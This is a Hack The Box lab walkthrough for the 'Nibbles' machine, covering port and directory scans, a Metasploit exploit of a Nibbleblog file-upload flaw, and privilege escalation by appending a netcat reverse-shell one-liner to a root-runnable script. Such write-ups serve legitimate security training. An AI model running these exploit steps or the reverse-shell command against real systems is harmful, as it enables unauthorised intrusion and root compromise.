 # Nibbles | HTB
### Difficulty : Easy
-------------------------------

Let's start with nmap scan to find open ports and services within the system:

```bash
nmap -p- -T4 -A 10.10.10.75 -oN nibbles.nmap
```

-p- scans all ports instead the 1000 common ports scan defaultivy way.

-T4  - increase the spped of the scan.

-A  - aggressive scan to gather more information about the system.

-oN - saves the output to a file.


Results:

```bash
Nmap scan report for 10.10.10.75
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/18%OT=22%CT=1%CU=33777%PV=Y%DS=2%DC=T%G=Y%TM=65F8
OS:88D9%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10D%TI=Z%II=I%TS=8)SEQ(S
OS:P=100%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)SEQ(SP=101%GCD=1%ISR=10C%TI=Z%II
OS:=I%TS=8)SEQ(SP=102%GCD=1%ISR=10C%TI=Z%TS=8)OPS(O1=M53CST11NW7%O2=M53CST1
OS:1NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=71
OS:20%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M5
OS:3CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4
OS:(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%
OS:F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%
OS:T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%R
OS:ID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   230.60 ms 10.10.14.1
2   230.77 ms 10.10.10.75

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 515.57 seconds
```

I'll try to find any intersting directory within the system with:

```bash
└─# gobuster dir -u http://10.10.10.75 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

-u - the traget url.

-w - the wordlist to scan the system with.

While scanning, I navigated to the address within the browser. I decided to view the source code.


![image](https://cdn-images-1.medium.com/max/1000/1*byJhHlMqipaqplu6OGRR3w.png)


It sends us to /nibbleblog/.


![image](https://cdn-images-1.medium.com/max/1000/1*bXNAX8k7NVW5eWed7Iu8nw.png)


The previous gobuster scan didn't find any directory, but after we found the blog, let's scan another time but with the /nibbleblog/.

Results:

![image](https://cdn-images-1.medium.com/max/1000/1*8W4FF3LwC2N5AqNdcplJKA.png)


After traveling betweem the directories within /admin, I didn't find anything there. 
But there is README file that includes the version of the nibbleblog service.


![image](https://cdn-images-1.medium.com/max/1000/1*Sw-slPkN3-mQNnwhOMbfnw.png)


Let's check if this service at that version is vulnerable.

```bash
searchsploit nibbleblog   
----------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                               |  Path
----------------------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                                       | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                        | php/remote/38489.rb
----------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Use metasploit to try the Arbitrary File Upload, but after I use "options" to understand what info I need to provide 
to run the exploit, it demends username and password. At that moment, I don't have any credentials.

After some research I found a github that includes the exploit with an example how to use it:

https://github.com/dix0nym/CVE-2015-6967


![image](https://cdn-images-1.medium.com/max/1000/1*3AEzPOCvVD08Rq76Zpms4Q.png)


I decided to provide the path, username and password (it can be default credentials). and then I got meterpreter shell!

On metasploit:

```bash
set lhost <your-ip>

set rhost <target-machine>

set targeturi /nibbleblog/

run

```


![image](https://cdn-images-1.medium.com/max/1000/1*B4Bn9ppeAtkNYmhTibOJrA.png)


Stabilized the shell with:

```bash

python3 -c 'import pty; pty.spawn("/bin/bash")'

```

![image](https://cdn-images-1.medium.com/max/1000/1*QDLymSfm1yv52sq-R4ZXNg.png)

There is zip file maybe there is something:



```bash
unzip personal.zip
```

and there is a script "monitor.sh". Let's check if can we run files as root with:

```bash
sudo -l
```

![image](https://cdn-images-1.medium.com/max/1000/1*2NeIv8555jTiQxE-C9Qk6w.png)


Because we know that this file can run as root so let's upload a reverse shell payload to the file:

```bash
echo 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <tun-0> 2222 >/tmp/f' >> monitor.sh    
```

Set netcat listener on your machine:

```bash
nc -lnvp 2222
```

then run monitor.sh :

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

and there is reverse shell as root:


![image](https://cdn-images-1.medium.com/max/1000/1*tYtmcGedyOT67-_N1pG50w.png)


grab /root/root.txt

and this is it for now.


***Written by Alon Presman, Penetration Tester and Ethical Hacker.***
























































































